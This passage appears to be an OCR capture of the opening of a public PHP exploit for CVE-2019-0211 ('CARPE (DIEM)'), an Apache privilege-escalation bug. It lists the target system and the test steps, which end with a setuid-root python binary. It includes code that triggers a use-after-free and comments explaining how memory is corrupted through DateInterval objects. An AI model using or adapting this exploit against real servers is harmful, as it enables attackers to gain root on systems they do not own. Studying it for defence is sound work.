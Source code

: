    # - Debian GNU/Linux 9.6
    #
    # TESTING
    #
    # $ curl http://localhost/cfreal-carpediem.php
    # $ sudo /usr/sbin/logrotate /etc/logrotate.conf --force
    # $ ls -alh /usr/bin/python3.5
    # -rwsr-sr-x 2 root root 4.6M Sep 27  2018 /usr/bin/python3.5
    #
    # There are no hardcoded addresses.
    # - Addresses read through /proc/self/mem
    # - Offsets read through ELF parsing
    #
    # As usual, there are tons of comments.
    #


    o('CARPE (DIEM) ~ CVE-2019-0211');
    o('');

    error_reporting(E_ALL);


    # Starts the exploit by triggering the UAF.
    function real()
    {
        global $y;
        $y = [new Z()];
        json_encode([0 => &$y]);
    }

    # In order to read/write what comes after in memory, we need to UAF a string so
    # that we can control its size and make in-place edition.
    # An easy way to do that is to replace the string by a timelib_rel_time
    # structure of which the first bytes can be reached by the (y, m, d, h, i, s)
    # properties of the DateInterval object.
    #